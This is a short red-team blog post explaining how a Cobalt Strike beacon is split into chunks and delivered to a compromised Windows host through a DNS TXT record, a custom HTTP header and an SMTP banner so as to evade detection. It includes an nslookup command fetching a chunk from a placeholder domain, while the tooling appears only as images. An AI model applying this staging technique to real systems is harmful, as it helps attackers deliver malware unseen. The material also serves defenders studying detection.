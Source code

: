 ```yaml
---
title: "Infiltrating CS Beacon through out different mediums"
date: 2022-01-03T16:56:40-05:00
---
```


## Introduction:
Hello Everyone, We all have heard of many infiltration techniques that were widely used making them easy to be detected. so we at Confidential took a step toward an infiltration technique that will make it a bit more complex in order not to be detected by any sense. Today's article will clarify how we have infiltrated CS beacon through out different mediums.

## Brief
We splitted the CS beacon into multiple chunks that will be later infiltrated from different mediums (DNS txt record, custome HTTP response header, and SMTP server's banner) using an executable agent that we will show a full demo about at the end of the article. 


## DNS txt record:
TXT records are a type of Domain Name System (DNS) record that contains text information. According to Google

Simply we can add our CS beacon's chunked as a txt dns record so when we perform a txt DNS query it will be resolved by the DNS Server resulting in getting the chunked part.


```
nslookup -querytype=txt confidential.example.com
```

![](../../img/infiltration/1.png)

## HTTP Response Header:
We configured our web server Response header so that we have the 2nd CS beacon's chunk in a custom response header called `Confidential`.

![](../../img/infiltration/2.png)

## SMTP Server's Banner:
We set up our SMTP Server and modified its configuration adding up the last chunck in the SMTP server's banner.

![](../../img/infiltration/3.png)

## Demo
Our team developed a tool that automates the process with more features. Here's a demo of the executable agent that we fired up inside the compromised windows machine.

![](../../img/infiltration/4.gif)


![](../../img/infiltration/5.png)


All techniques mentioned above are just limited examples of how you can infiltrate your malicious payload to the compromised machine. You still can come up with your own ideas that suits the scenario


## Refrences:

- https://support.google.com/a/answer/2716800?hl=en
- https://github.com/PaloAltoNetworks/research-notes/blob/master/notes/DNS-based%20data%20exfiltration%20and%20infiltration%20technology%20and%20detection.pdf
